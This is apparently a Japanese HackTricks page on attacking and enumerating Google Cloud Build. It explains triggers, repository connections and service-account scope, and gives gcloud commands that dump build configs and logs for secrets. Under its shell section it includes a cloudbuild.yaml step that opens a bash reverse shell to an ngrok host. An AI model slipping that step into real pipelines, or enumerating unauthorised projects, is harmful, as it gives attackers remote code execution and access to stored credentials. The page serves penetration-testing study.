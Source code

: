 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)コレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

## 基本情報

Google Cloud Buildは、**ソフトウェアのビルド**とリリースプロセスを自動化する管理されたCI/CDプラットフォームであり、**ソースコードリポジトリ**と統合し、幅広いプログラミング言語をサポートしています。開発者がコードを自動的にビルド、テスト、デプロイすることを可能にし、ビルドステップとワークフローをカスタマイズする柔軟性を提供します。

各Cloud Buildトリガーは、**Cloudリポジトリに関連しているか、直接外部リポジトリ**（Github、Bitbucket、Gitlab）に接続されています。

{% hint style="success" %}
Github/Bitbucketのトークンをここから、またはCloudリポジトリから盗む方法は見つかりませんでした。なぜなら、リポジトリがダウンロードされるときには[https://source.cloud.google.com/](https://source.cloud.google.com/)のURLを介してアクセスされ、Githubはクライアントによってアクセスされないからです。
{% endhint %}

### イベント

Cloud Buildは以下の場合にトリガーされます:

* **ブランチへのプッシュ**: ブランチを指定
* **新しいタグのプッシュ**: タグを指定
* **プルリクエスト**: PRを受け取るブランチを指定
* **手動呼び出し**
* **Pub/Subメッセージ:** トピックを指定
* **Webhookイベント**: HTTPS URLが公開され、リクエストはシークレットで認証される必要があります

### 実行

3つのオプションがあります:

* 実行するコマンドを**指定するyaml/json**。通常は: `/cloudbuild.yaml`
* ウェブコンソールとCLIで「インライン」で指定できる唯一のオプション
* 最も一般的なオプション
* 認証されていないアクセスに関連する
* ビルドする**Dockerfile**
* ビルドする**Buildpack**

### SA権限

**サービスアカウントは`cloud-platform`スコープを持っており**、すべての権限を**使用できます。** **SAが指定されていない場合**（例えばsubmitを行うとき）、デフォルトのSA `<proj-number>@cloudbuild.gserviceaccount.com`が**使用されます。**

デフォルトでは権限は与えられていませんが、簡単にいくつかの権限を与えることができます:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### 承認

ビルド実行に承認が必要なCloud Buildを設定することが可能です（デフォルトでは無効）。

### 接続 & リポジトリ

接続は以下を通じて作成できます:

* **GitHub:** OAuthプロンプトが表示され、**Githubトークン**を取得するための権限を求められます。このトークンは**Secret Manager**内に保存されます。
* **GitHub Enterprise:** **GithubApp**のインストールを求められます。GitHub Enterpriseホストからの**認証トークン**が作成され、このプロジェクトの**Secret Manager**シークレットとして保存されます。
* **GitLab / Enterprise:** **APIアクセストークンとRead APIアクセストークン**を提供する必要があり、これらは**Secret Manager**に保存されます。

接続が生成されると、Githubアカウントがアクセス権を持っているリポジトリにリンクするために使用できます。

このオプションは以下のボタンから利用可能です:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
この方法で接続されたリポジトリは、**2世代目を使用するトリガーでのみ利用可能**であることに注意してください。
{% endhint %}

### リポジトリの接続

これは**`connection`**と同じではありません。これにより、**異なる**方法で**GithubまたはBitbucket**リポジトリにアクセスすることができますが、接続オブジェクトは生成されませんが、リポジトリオブジェクト（1世代目）は生成されます。

このオプションは以下のボタンから利用可能です:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### ストレージ

Cloud Buildは、トリガーのためのファイルを保存する新しいストレージを**生成することがあります**。これは例えば、GCPが提供する例で起こります:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### シェルを取得

Storageバケット[security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox)が作成され、使用するファイルが含まれた`.tgz`を保存します。
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 列挙

ビルド設定とログに**機密情報**が見つかる可能性があります。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 権限昇格

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 認証されていないアクセス

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 攻撃後の活動

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で<strong>AWSのハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
